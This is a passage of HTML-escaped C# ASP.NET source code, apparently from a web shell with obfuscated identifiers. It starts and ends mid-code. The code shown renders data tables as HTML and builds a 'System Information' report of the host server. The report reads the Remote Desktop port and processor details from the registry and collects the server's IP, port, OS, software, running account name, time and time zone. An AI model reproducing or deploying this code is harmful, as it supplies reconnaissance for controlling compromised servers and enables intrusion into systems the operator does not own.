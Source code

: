 for(int j=0;j&lt;user.Columns.Count;j++)
{
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
TableCell td=new TableCell();
td.Text=user.Columns[j].ToString();
tr.Controls.Add(td);
TableCell td1=new TableCell();
td1.Text=user.Rows[i][j].ToString();
tr.Controls.Add(td1);
VPa.Controls.Add(tr);
}
TableRow trn=new TableRow();
for(int x=1;x&lt;3;x++)
{
TableCell tdn=new TableCell();
tdn.Attributes["style"]="height:2px;background-color:#bbbbbb;";
trn.Controls.Add(tdn);
VPa.Controls.Add(trn);
}
}
}
catch(Exception error)
{
PLd();
}
}
public void pDVM()
{
try
{
RegistryKey EeZ=Registry.LocalMachine.OpenSubKey(@"SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp");
string IKjwH=DdmPl(EeZ,"PortNumber");
RegistryKey izN=Registry.LocalMachine.OpenSubKey(@"HARDWARE\DESCRIPTION\System\CentralProcessor");
int cpu=izN.SubKeyCount;
RegistryKey mQII=Registry.LocalMachine.OpenSubKey(@"HARDWARE\DESCRIPTION\System\CentralProcessor&#92;&#48;\");
string NPPZ=DdmPl(mQII,"ProcessorNameString");
WICxe();
ghaB.Visible=true;
Bin_H2_Title.InnerText="System Information &gt;&gt;";
Bin_H2_Mac.InnerText="MAC Information &gt;&gt;";
Bin_H2_Driver.InnerText="Driver Information &gt;&gt;";
StringBuilder yEwc=new StringBuilder();
StringBuilder hwJeS=new StringBuilder();
StringBuilder jXkaE=new StringBuilder();
yEwc.Append("&lt;li&gt;&lt;u&gt;Server Domain : &lt;/u&gt;"+Request.ServerVariables["SERVER_NAME"]+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Server Ip : &lt;/u&gt;"+Request.ServerVariables["LOCAL_ADDR"]+":"+Request.ServerVariables["SERVER_PORT"]+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Terminal Port : &lt;/u&gt;"+IKjwH+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Server OS : &lt;/u&gt;"+Environment.OSVersion+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Server Software : &lt;/u&gt;"+Request.ServerVariables["SERVER_SOFTWARE"]+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Server UserName : &lt;/u&gt;"+Environment.UserName+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Server Time : &lt;/u&gt;"+System.DateTime.Now.ToString()+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;Server TimeZone : &lt;/u&gt;"+cCf("Win32_TimeZone").Rows[0]["Caption"]+"&lt;/li&gt;");
DataTable BIOS=cCf("Win32_BIOS");